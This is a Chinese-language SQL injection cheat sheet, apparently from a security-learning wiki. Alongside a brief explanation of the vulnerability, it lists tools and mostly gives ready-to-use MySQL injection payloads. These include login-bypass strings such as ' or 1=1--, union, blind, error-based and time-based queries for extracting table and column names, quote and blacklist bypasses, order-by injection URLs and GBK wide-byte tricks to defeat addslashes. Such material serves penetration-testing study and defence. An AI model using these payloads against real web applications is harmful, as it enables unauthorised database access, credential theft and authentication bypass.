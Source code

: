 # SQL 注入

## 基本概念

* SQL 注入是一种将 SQL 代码插入或添加到应用（用户）的输入参数中，之后再讲这些参数传递给后台的 SQL 服务器加以解析并执行的攻击。
* 攻击者能够修改 SQL 语句，该进程将与执行命令的组件（如数据库服务器、应用服务器或 WEB 服务器）拥有相同的权限。
* 如果 WEB 应用开发人员无法确保在将从 WEB 表单、cookie、输入参数等收到的值传递给 SQL 查询（该查询在数据库服务器上执行）之前已经对其进行过验证，通常就会出现 SQL 注入漏洞。

## 常用工具

* Burp Suite：[Burp Suite 使用介绍](http://static.hx99.net/static/drops/tools-1548.html)
* Tamper Data \(Firefox addon\)
* HackBar \(Firefox addon\)
* sqlmap：[sqlmap 用户手册](http://static.hx99.net/static/drops/tips-143.html)

## 注入常见参数

* `user()`：当前数据库用户；
* `database()`：当前数据库名；
* `version()`：当前使用的数据库版本；
* `@@datadir`：数据库存储数据路径；
* `concat()`：联合数据，用于联合两条数据结果。如 `concat(username,0x3a,password)`；
* `group_concat()`：和 `concat()` 类似，如 `group_concat(DISTINCT+user,0x3a,password)`，用于把多条数据一次注入出来；
* `concat_ws()`：用法类似；
* `hex()` 和 `unhex()`：用于 hex 编码解码；
* `load_file()`：以文本方式读取文件，在 Windows 中，路径设置为 `\\`；
* `select xxoo into outfile '路径'`：权限较高时可直接写文件。


## 语法参考与小技巧

### 行间注释

* `--`

  ```sql
  DROP sampletable;--
  ```

* `#`

  ```sql
  DROP sampletable;#
  ```

### 行内注释

- `/*注释内容*/`

  ```sql
  DROP/*comment*/sampletable`
  DR/**/OP/*绕过过滤*/sampletable`
  SELECT/*替换空格*/password/**/FROM/**/Members
  ```

- `/*! MYSQL专属 */` 

  ```sql
  SELECT /*!32302 1/0, */ 1 FROM tablename
  ```


### 字符串编码

* `ASCII()`：返回字符的 ASCII 码值；
* `CHAR()`：把整数转换为对应的字符。

## 后台万能密码

- `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- 以不同的用户登陆 `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`


## 注入语句备忘

### 数据库名

```sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

### 表名

- union 查询

  ```sql
  --MySQL 4版本时用version=9，MySQL 5版本时用version=10
  UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
  /* 列出当前数据库中的表 */
  UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();
  /* 列出所有用户自定义数据库中的表 */
  SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';
  ```

- 盲注

  ```sql
  AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables > 'A'
  ```

- 报错

  ```sql
  AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
  -- 在5.1.5版本中成功。
  ```

### 列名

- union 查询

  ```sql
  UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
  ```

- 盲注

  ```sql
  AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
  ```

- 报错

  ```sql
  -- 在5.1.5版本中成功。 AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)-- MySQL 5.1版本修复了
  AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
  ```

- 利用 `PROCEDURE ANALYSE()`

  ```sql
  -- 这个需要 web 展示页面有你所注入查询的一个字段。
  -- 获得第一个段名 
  SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE() 
  -- 获得第二个段名 
  1 LIMIT 1,1 PROCEDURE ANALYSE() 
  -- 获得第三个段名
  1 LIMIT 2,1 PROCEDURE ANALYSE() 
  ```

### 根据列名查询所在的表

```sql
-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```

### 绕过引号限制

```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

### 绕过字符串黑名单

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

使用 `CONCAT()` 时，任何个参数为 null，将返回 null， 推荐使用 `CONCAT_WS()` 。`CONCAT_WS()` 函数第一个参数表示用哪个字符间隔所查询的结果。

### 条件语句

`CASE`、`IF()`、`IFNULL()`、`NULLIF()`。

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

### 延时函数

`SLEEP()`、`BENCHMARK()`。

```sql
' - (IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)) - '
```

### order by后的注入

`order by` 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 `order` 或者 `order by` 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：

原始链接：`http://www.test.com/list.php?order=vote`

根据 `vote` 字段排序。找到投票数最大的票数 `num` 然后构造以下链接：

```
http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc
```

看排序是否变化。还有一种方法不需要知道任何字段信息，使用 `rand` 函数：

````
http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)
````

以上两个会返回不同的排序，判断表名中第一个字符是否小于128的语句如下：

````
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
````

### 宽字节注入

国内最常使用的 GBK 编码，这种方式主要是绕过 `addslashes` 等对特殊字符进行转移的绕过。反斜杠 `\` 的十六进制为 `%5c`，在你输入 `%bf%27` 时，函数遇到单引号自动转移加入 `\`，此时变为 `%bf%5c%27`，`%bf%5c` 在 GBK 中变为一个宽字符“縗”。`%bf` 那个位置可以是 `%81-%fe` 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。

## 参考资料

- [SQL 注入速查表](http://static.hx99.net/static/drops/tips-7840.html)
- [MySQL 注入技巧](http://static.hx99.net/static/drops/tips-7299.html)
- [MySQL 注入科普](http://static.hx99.net/static/drops/tips-123.html)
- [MySQL 注入总结](http://www.91ri.org/4073.html)
- [《SQL注入攻击与防御》](http://product.dangdang.com/23364650.html)

